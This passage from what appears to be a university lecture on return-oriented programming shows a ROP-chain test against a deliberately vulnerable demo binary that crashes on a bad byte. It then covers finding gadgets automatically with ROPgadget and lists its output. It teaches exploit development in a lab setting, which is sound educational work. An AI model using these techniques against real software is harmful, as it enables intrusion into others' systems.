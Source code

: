 And if we test it to see if we get to the 0xcafebabe:

``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`F?
?                                                                                                                       AAAA
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1555336.602578] vulnerable[10650]: segfault at 800a70d ip 0800a70d sp bffff630 error 14 in vulnerable[8048000+a1000]
```

Not again. This time it is 0x09 in the `mov [edx],eax; ret` instruction.
Seems like we need a better way because we can continue to explore for
these embedded gasgets, but thats a lot of work. Thankfully, there are
tools to make this a lot easier.

## Automated Gadget Hunting

Because it's a pain in the ass to find the ROP gadgets by hand, people
have developed automated tools for both finding gadgets and
automatically assembling exploits based on those gadgets. The one we'll
focus on today is
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget). You should
work to install it on your own virtual box system.

While ROPgadget does all sorts of cool things, we'll primarily use it to
find gadgets for us. Here's the most basic usage where I am just
separating out the pop eax instructions:

``` example
user@si485H-base:demo$ ./ROPgadget.py --binary ./vulnerable | grep ": pop eax "
0x0808f020 : pop eax ; adc al, -0x7b ; sal byte ptr [edx + ecx + 0xffffffc1], cl ; retf
0x080a9926 : pop eax ; adc al, 0x39 ; ret
0x080e01f5 : pop eax ; add byte ptr [eax], al ; mov bh, dl ; clc ; jmp dword ptr [ebx]
0x0806c1b6 : pop eax ; add byte ptr [eax], al ; xor eax, eax ; leave ; ret
0x080e0e1c : pop eax ; add byte ptr fs:[eax], al ; add byte ptr [eax], -7 ; jmp edi
0x08054a15 : pop eax ; and al, -0x77 ; dec eax ; or al, 1 ; retf 0x5089
0x0808cf6d : pop eax ; and bl, ch ; ret -0x4b73
0x0805ae06 : pop eax ; je 0x805ae17 ; add esp, 0x68 ; pop ebx ; ret
0x0809d932 : pop eax ; jmp dword ptr [eax]
0x0809e5b3 : pop eax ; mov dword ptr [esp + 4], eax ; call 0x80ab047
0x0807b5c8 : pop eax ; mov eax, 0x77 ; int 0x80
0x080858e1 : pop eax ; mov eax, edx ; add esp, 0x1c ; ret
0x0805c84c : pop eax ; mov edi, eax ; mov esi, edx ; mov eax, dword ptr [esp + 4] ; ret
0x080539ce : pop eax ; or al, -0x77 ; push eax ; add al, -0x77 ; dec eax ; and al, 0x5b ; ret
0x080573eb : pop eax ; or al, 0x39 ; ret
0x0808b691 : pop eax ; or byte ptr [ebx + 0x89010442], al ; retf -0x1e7d
0x0808c521 : pop eax ; or byte ptr [ecx + 0x20488910], cl ; pop ebx ; ret
0x080e359d : pop eax ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret
0x080e5cff : pop eax ; or cl, byte ptr [esi] ; or al, 0x41 ; ret
0x08058169 : pop eax ; or dh, dh ; ret
0x0804a0cf : pop eax ; or dh, dh ; ret 0xfdf
0x0809e02a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080e105d : pop eax ; push cs ; adc al, 0x41 ; ret
0x080bb746 : pop eax ; ret  <---
0x08071fba : pop eax ; ret 0x80e
0x080b0914 : pop eax ; retf
0x080554f9 : pop eax ; xor byte ptr [ebx + 0xffffff83], bl ; retf -0x7cfe
```
